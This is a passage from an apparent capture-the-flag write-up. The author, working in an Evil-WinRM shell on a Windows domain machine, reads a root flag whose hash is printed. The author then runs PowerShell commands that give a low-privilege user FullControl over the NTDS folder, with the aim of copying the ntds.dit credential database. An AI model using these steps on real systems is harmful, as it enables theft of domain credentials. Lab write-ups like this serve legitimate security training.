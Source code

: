 ```text
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        7/23/2020  10:08 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
fe237d93abd456b96a363e2ed34fb271
```

### Getting Administrator Shell

So now I have successfully exfiltrated the secret documents...but I want to own the system. Time to practice some more privilege escalation.

```text
*Evil-WinRM* PS C:\Users\jorden\Documents> $folder = "C:\Windows\NTDS"
*Evil-WinRM* PS C:\Users\jorden\Documents> $acl = Get-ACL $folder
*Evil-WinRM* PS C:\Users\jorden\Documents> $user = "MEGACORP\jorden"
*Evil-WinRM* PS C:\Users\jorden\Documents> $aclperms = $user, "FullControl", "ContainerInherit, ObjectInherit","None","Allow"
*Evil-WinRM* PS C:\Users\jorden\Documents> $aclrule = New-Object System.Security.AccessControl.FileSystemAccessRule $aclperms
*Evil-WinRM* PS C:\Users\jorden\Documents> $acl.AddAccessRule($aclrule)
*Evil-WinRM* PS C:\Users\jorden\Documents> Set-Acl -Path $folder -AclObject $acl
*Evil-WinRM* PS C:\Users\jorden\Documents> Get-Acl $folder | fl

Path   : Microsoft.PowerShell.Core\FileSystem::C:\Windows\NTDS
Owner  : BUILTIN\Administrators
Group  : MEGACORP\Domain Users
Access : CREATOR OWNER Allow  268435456
         NT AUTHORITY\SYSTEM Allow  268435456
         NT AUTHORITY\SYSTEM Allow  FullControl
         NT AUTHORITY\LOCAL SERVICE Allow  AppendData, Synchronize
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Administrators Allow  268435456
         MEGACORP\jorden Allow  FullControl
Audit  :
Sddl   : O:BAG:DUD:PAI(A;OICIIO;GA;;;CO)(A;OICIIO;GA;;;SY)(A;;FA;;;SY)(A;CI;0x100004;;;LS)(A;;FA;;;BA)(A;OICIIO;GA;;;BA)(A;OICI;FA;;;S-1-5-21-3167813660-1240564177-918740779-3110)
```

I'm sure there is a way I can backup ntds.dit From [https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/security-identifiers](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/security-identifiers): But it seems like I need an admin prompt for this to work
